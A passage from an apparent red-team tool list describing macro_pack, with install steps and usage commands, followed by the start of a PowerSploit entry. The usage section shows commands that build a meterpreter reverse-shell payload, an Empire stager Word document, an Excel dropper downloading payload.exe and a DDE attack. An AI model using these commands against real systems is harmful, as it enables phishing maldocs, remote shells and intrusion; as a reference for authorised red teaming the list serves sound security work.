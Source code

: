 ![image](https://user-images.githubusercontent.com/100603074/210077893-9d42cc2f-0ea0-414f-8103-42e29429321b.png)

### [🔙](#tool-list)[Macro_pack](https://github.com/sevagas/macro_pack)

A tool used to automatize the obfuscation and generation of Office documents, VB scripts, shortcuts, and other formats for red teaming.

**Install: (Binary)** 

1. Get the latest binary from [https://github.com/sevagas/macro_pack/releases/](https://github.com/sevagas/macro_pack/releases/)
2. Download binary on PC with genuine Microsoft Office installed.
3. Open console, CD to binary dir and call the binary

**Install: (Git)** 

```bash
git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
```

**Usage:** 

```bash
# Help Page
python3 macro_pack.py  --help

# List all supported file formats
macro_pack.exe --listformats

# Obfuscate the vba file generated by msfvenom and puts result in a new VBA file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager VBA file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

![image](https://user-images.githubusercontent.com/100603074/209868800-7fbcfdec-8ae8-4693-8438-feebc2309667.png)

### [🔙](#tool-list)[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

A collection of PowerShell scripts and modules that can be used to achieve a variety of red teaming objectives.
